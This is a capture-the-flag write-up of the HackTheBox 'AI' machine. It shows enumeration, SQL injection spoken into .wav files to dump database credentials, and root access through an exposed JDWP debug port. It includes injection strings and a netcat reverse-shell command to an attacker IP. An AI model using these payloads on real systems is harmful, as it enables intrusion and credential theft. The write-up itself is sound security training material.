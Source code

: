 ```yaml
---
layout: article
title: HackTheBox - AI
tags: HackTheBox write-up
date: 2019-01-01 08:00:00 +0100
---
```


![banner](/assets/images/ai.png)

<!--more-->

<h2>AI</h2>
<h3>The Basics</h3>
The first thing we should do is map the box IP address to the box name  .htb in the `/etc/hosts` file.
`10.10.10.163   ai.htb`

<h3>Initial Scan</h3>
Next up we will run a all port NMAP scan `nmap -sC -sV -p- 10.10.10.163`. We get results back for 2 ports: 22 SSH open and 80 HTTP open.

![Initial NMAP scan](/assets/images/ai-initial-scan.png)

<h3>Web Enumeration</h3>
Let's take a look at port 80 and run a gobuster.

![gobuster results](/assets/images/ai-gobuster-results.png)

We quickly get some promising results. We'll take a look at **ai.php** and **intelligence.php**. It looks like we have some upload functionality for `.wav` files. The AI will process the `.wav` files into a search query. Looking at the intelligence page, we can get an overview of some commands and their results after processing by the AI. The page also hints to Microsoft and a **Male US** voice model. After some googling I found a free [Text-To-Speech service](https://www.text2speech.org/) with a Male US voice model and an extended [Speech-To-Text table](https://support.microsoft.com/en-us/help/12427/windows-speech-recognition-commands).

![ai](/assets/images/ai-ai.png)

![intelligence](/assets/images/ai-intelligence.png)

<h3>Generating wav files to dump credentials from the MySQL database</h3>
The speech-to-text table contains output that strongly hints to SQL injection, like `union, schema, comma, period, -- -`. So let's try to generate a `.wav` file and test this.

We generate [single-quote.wav](/assets/audio/single-quote.wav) which contains "open single quote", this should result in a single quote after processing by the AI.

![sqli test](/assets/images/ai-sqli-test.png)

Next up let's try dumping credentials. We generate [username.wav](/assets/audio/username.wav) and [password.wav](/assets/audio/password.wav) which contain:
~~~
open single quote union select         yusername from users comment database
open single quote union selectpassword from users comment database
~~~

To make sure the AI parses our commands correctly we have to play around with the speed, spacing and spelling.

![username](/assets/images/ai-username.png)

![password](/assets/images/ai-password.png)

We successfully extract a username and password.

<h3>User flag and enumeration</h3>
With our credentials, we can SSH into the user and grab the user flag.
`ssh al***@ai.htb`.

![user flag](/assets/images/ai-user-flag.png)

For the next part we will do some heavy enumeration. We run the following scripts and go through the output to look for anything of interest:

* [Jalesc](https://github.com/itsKindred/jalesc)
* [LinEnum](https://github.com/Cerbersec/scripts/blob/master/linux/LinEnum.sh)
* [Linpeas](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh)
* [PSPY](https://github.com/Cerbersec/scripts/blob/master/linux/pspy64)

Looking at the running processes output from **linpeas.sh** we can see `-agentlib:jdwp` is flagged with a **99% PE**.

![linpeas](/assets/images/ai-linpeas.png)

Monitoring **pspy64** we see some interesting output regarding `/root/tomcat.sh` which seems to be killing and restarting a Tomcat instance which spawns the same process which was flagged by **linpeas**.

![pspy](/assets/images/ai-pspy.png)

If we take a look at the network connections and listeners with `netstat -auntp` we see **localhost** is listening on ports 8000, 8080, 8005 and 8009. From the previous output we know the Tomcat server is running on port 8000.

![netstat](/assets/images/ai-netstat.png)

<h3>Exploiting JDWP to gain a root shell</h3>
The Java Debug Wire Protocol (JDWP) enables remote debugging of java applications with the Java Debugger (JDB). Googling for a [JDWP exploit](https://github.com/IOActive/jdwp-shellifier) will find us a Github Repository with a JDWP exploitation script called **jdwp-shellifier.py**.

Because the default netcat binary on the box doesn't support the `-e` flag, we will upload our own `/usr/bin/nc` to `/tmp`, we will also upload the **jdwp-shellifier.py** script.
Before we run the script we will set up a listener with `nc -lnvp 444`. Now we can run the exploit:

~~~
./jdwp-shellifier.py -t 127.0.0.1 -p 8000 --break-on 'java.lang.String.indexOf' --cmd '/tmp/nc  10.10.14.XXX 444 -e /bin/bash'
~~~

![jdwp exploit](/assets/images/ai-jdwp.png)

We successfully get a connection back and can upgrade our shell using python:

~~~python
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
~~~

Now we can grab the root flag.

![root flag](/assets/images/ai-root-flag.png)
